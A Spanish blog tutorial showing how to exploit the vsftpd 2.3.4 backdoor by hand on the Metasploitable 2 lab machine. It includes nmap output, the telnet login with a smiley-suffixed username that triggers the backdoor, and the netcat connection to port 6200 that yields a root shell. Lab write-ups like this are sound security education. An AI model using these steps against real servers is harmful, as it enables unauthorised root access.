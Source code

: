 ```yaml
---
layout: post
title: Metasploitable 2, Atacando manualmente el puerto 21 VSFTPD 2.3.4
category: Hacking
comments: true
description: En el articulo anterior atacamos esta vulnerabilidad con ayuda de Metasploit, pero esta vez lo haremos manualmente, ya que al ser un backdoor, fue una vulnerabilidad creada a posta por alguien con malas intenciones, en este post veremos como ejecutar un backdoor de la manera original sin necesidad de usar Metasploit.
tags:       

    - metasploitable2
    - metasploit
---
```


En el articulo anterior atacamos esta vulnerabilidad con ayuda de Metasploit, pero esta vez lo haremos manualmente, ya que al ser un backdoor, fue una vulnerabilidad creada a posta por alguien con malas intenciones, en este post veremos como ejecutar un backdoor de la manera original sin necesidad de usar Metasploit.

Para descargarte [Metasploitable 2](https://sourceforge.net/projects/metasploitable/files/Metasploitable2/){:target="_blank"}

Recuerda que puedes ver el articulo de como usamos esta vulnerabilidad con metasploit [aqui](http://h1rd.com/hacking/Metasploitable2-vsftpd)

## Puertos abiertos antes de empezar

Antes de empezar es recomendable que veamos cuales son los puertos abiertos de nuestra maquina objetivo, ya vereis que despues de abrir el backdoor habra otro puerto más abierto.

{% highlight sql linenos %}

Nmap scan report for 192.168.1.41
Host is up (0.00037s latency).
Not shown: 65501 closed ports
PORT      STATE    SERVICE
21/tcp    open     ftp
22/tcp    open     ssh
23/tcp    open     telnet
25/tcp    open     smtp
53/tcp    open     domain
80/tcp    open     http
111/tcp   open     rpcbind
139/tcp   open     netbios-ssn
445/tcp   open     microsoft-ds
512/tcp   open     exec
513/tcp   open     login
514/tcp   open     shell
1099/tcp  open     rmiregistry
1524/tcp  open     ingreslock
2049/tcp  open     nfs
2121/tcp  open     ccproxy-ftp
3306/tcp  open     mysql
3632/tcp  open     distccd
4239/tcp  filtered vrml-multi-use
5432/tcp  open     postgresql
5900/tcp  open     vnc
6000/tcp  open     X11
6667/tcp  open     irc
6697/tcp  open     ircs-u
8009/tcp  open     ajp13
8180/tcp  open     unknown
8787/tcp  open     msgsrvr
27242/tcp filtered unknown
34652/tcp open     unknown
35474/tcp filtered unknown
41271/tcp open     unknown
41542/tcp open     unknown
42726/tcp open     unknown
54399/tcp filtered unknown
MAC Address: 00:0C:29:D3:5F:CD (VMware)

Nmap done: 1 IP address (1 host up) scanned in 185.82 seconds

{% endhighlight %}


## Usando el backdoor

Para usar el backdoor nos conectamos al ftp desde telnet, en donde pasaremos un USER que tiene que acabar con :) y un PASS cualquiera, luego tenemos que salir, para ello pulsamos CONTROL+5 y salimos de telnet.

{% highlight sql linenos %}

telnet 192.168.1.41 21
USER hola:)
PASS nolose

(pulsamos control +5)

quit.

{% endhighlight %}


Y si ahora ejecutaramos otra vez el nmap veriamos que tenemos un nuevo puerto abierto en el 6200.

{% highlight sql linenos %}

Nmap scan report for 192.168.1.41
Host is up (0.00036s latency).
Not shown: 65504 closed ports
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
23/tcp    open  telnet
25/tcp    open  smtp
53/tcp    open  domain
80/tcp    open  http
111/tcp   open  rpcbind
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
512/tcp   open  exec
513/tcp   open  login
514/tcp   open  shell
1099/tcp  open  rmiregistry
1524/tcp  open  ingreslock
2049/tcp  open  nfs
2121/tcp  open  ccproxy-ftp
3306/tcp  open  mysql
3632/tcp  open  distccd
5432/tcp  open  postgresql
5900/tcp  open  vnc
6000/tcp  open  X11
6200/tcp  open  lm-x
6667/tcp  open  irc
6697/tcp  open  ircs-u
8009/tcp  open  ajp13
8180/tcp  open  unknown
8787/tcp  open  msgsrvr
34652/tcp open  unknown
41271/tcp open  unknown
41542/tcp open  unknown
42726/tcp open  unknown
MAC Address: 00:0C:29:D3:5F:CD (VMware)

Nmap done: 1 IP address (1 host up) scanned in 3.54 seconds

{% endhighlight %}

Ahora seria tan facil como abrir un netcat o un telnet al puerto 6200... y ala.. ya somos root!

{% highlight sql linenos %}

nc 192.168.1.41 6200

{% endhighlight %}

<figure>
<img alt="Acceso root a la maquina objetivo después de usar el backdoor" class="img img-responsive" src="/resources/images/exploit-vsftpd-manual.png"/>
<figcaption>
Acceso root a la maquina objetivo después de usar el backdoor
</figcaption>
</figure>

